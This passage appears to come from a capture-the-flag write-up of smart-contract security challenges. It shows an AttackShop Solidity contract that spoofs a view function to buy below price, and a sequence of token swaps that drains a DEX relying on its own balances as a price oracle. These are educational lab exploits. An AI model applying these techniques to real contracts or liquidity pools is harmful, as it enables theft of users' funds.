 - Firstly, in the if condition, the price returned must be 100 or higher to pass.
- And when the contract updates, that we can return a value lower than 100.
```
pragma solidity ^0.6.0;

import './Shop.sol'

contract AttackShop is Buyer {
    Shop public shop;

    constructor(Shop _shop) public {
        shop = _shop;
    }

    function buy() public {
        shop.buy();
    }

    function price() public view override returns(uint) {
       
        return shop.isSold ? 0 : 100;
    }
}
```
MAIN TAKEAWAY FROM CHALLENGE:
Interfaces do not guarantee contract security. So even if  another contract uses the same interface, this doesn’t mean that it will behave as intended! Also view and pure promises might be violated without our knowledge.
Double-calling functions even the same view function in order to approve an action is a very unsafe thing to do.



## 22. DEX

The exploit on this level is the reliance on a single oracle source for token price. Let's quickly walk through why this is a problem. Originally we were given 10A and 10B and the dex has 100A and 100B where A and B represents token 1 and 2 respectively. This gives us a price of 1A = 1B.

If we swap all of our A to B, we'll receive 10B since the initial balance of A and B is 100 (price ration is 1:1) our new balance is 0A and 20B. The dex has 110A and 90B. The price will update according to the current balance of each token i.e., 90 token2 per 110 token1, now if we were to swap all our B back to A, the dex is actually quoting us a better price than what we originally swapped at (1:1). Our new balance is 24A and 0B while the dex has 86A and 110B. 
We repeat this a few more times by swapping our entire balance and we'll be able to drain the funds of the dex.
```
let a = await contract.token1();
let b = await contract.token2();
await contract.approve(instance, "1000");
await contract.swap(a, b, 10);
await contract.swap(b, a, 20);
await contract.swap(a, b, 24);
await contract.swap(b, a, 30);
await contract.swap(a, b, 41);
await contract.swap(b, a, 45); // the reason why we use 45 here instead of the entire balance of B of 65 is because the dex doesn't have enough a to give back to us. So we need to calculate the right amount of b to use to ensure that we can fully drain a i.e. 110/156*65 = 45.
```

